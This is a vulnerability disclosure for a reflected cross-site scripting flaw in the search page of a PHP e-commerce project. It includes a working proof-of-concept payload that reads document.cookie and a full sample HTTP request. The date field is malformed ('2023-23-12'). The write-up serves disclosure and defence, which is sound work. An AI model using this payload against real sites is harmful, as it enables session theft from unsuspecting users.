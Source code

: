 # E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Exploit Title:** E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-site-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2019/10/E-COMMERCE_SITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
E-commerce Site 1.0 allows Reflected Cross-site Scripting via parameter 'keyword' in "/ecommerce/search.php". E-commerce Site is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Search for Product: "http://localhost/ecommerce/search.php"
+ Use this payload: `<video/src=x onerror=alert(document.cookie)>`
+ Fill the payload and Enter.
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'keyword' parameter:
```
POST /ecommerce/search.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ml92pvb86qoqm8rjs4vhgk86v7
Referer: http://localhost/ecommerce/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

keyword=%3Cvideo/src=x%20onerror=alert(document.cookie)%3E%20
```

+ Example payload:
```
<video/src=x onerror=alert(document.cookie)>
```
![1-1](https://github.com/h4md153v63n/CVEs/assets/5091265/85674d4d-34f4-4dc3-95b4-b010401dd04e)
<br>
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/5225831f-4eef-41df-bd4e-c9e41901dce0)
